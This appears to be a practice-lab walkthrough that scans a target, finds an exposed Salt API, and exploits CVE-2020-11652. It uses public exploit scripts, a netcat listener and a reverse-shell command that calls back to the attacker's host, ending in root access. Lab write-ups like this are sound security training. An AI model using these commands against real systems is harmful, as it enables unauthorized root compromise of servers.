





# Recon

## Nmap
```
nmap -p- --open -sC -sV 192.168.179.62
```
- `-p-`: Scans all 65535 ports on the target system. The hyphen signifies scanning all possible ports.
- `--open`: Displays only open ports, indicating which services are active and accessible.
- `-sC`: Performs default script scanning, which runs a set of scripts to gather additional information about the target.
- `-sV`: Enables version detection, providing information about the versions of services running on open ports.


### Port 80
Port 80 is running a web application (Mezzanine). Run searchsploit for this using `searchsploit mezzanine`
- searchsploit only reveals a cross site scripting vulnerability

### Port 8000
Nmap says this is redirecting requests, so let's enumerate this port and use curl
```
target="192.168.179.62"
curl -v $target:8000
```
In the response, there is something interesting. The server looks like it is running Salt API. 


Searching for salt api exploit [reveals the remote code execution](https://www.exploit-db.com/exploits/48421)


Copy the script to our machine using `searchsploit -m multiple/remote/48421.txt`
- change the extension of the script using `mv 48421.txt 48421.py`

Use the `-h` flag to see how the script accepts parameters
```
python3 48421.py -h
```
- the `-m` flag is used to specify the IP address

Run the script against the target
```
python3 48421.py -m 192.168.179.62
```

The python script works to exploit the vulnerability but it does not create a reverse shell on the server.
<br/>
After searching the `CVE-2020-11652` on github, I came across [this script](https://github.com/bravery9/SaltStack-Exp/blob/master/exp.py) that generates a reverse shell.
- Start a netcat reverse shell using `nc -lnvp 80`
- Then run the following command
```
python exp.py -m 192.168.199.62 --shell-LHOST 192.168.45.209 --shell-LPORT 80 --exec-choose master
```


The screenshot shows that the script gives root access to the server. The proof.txt is in the same directory.

---

Join me for the next machine soon for more exciting challenges and security insights!

+10 points

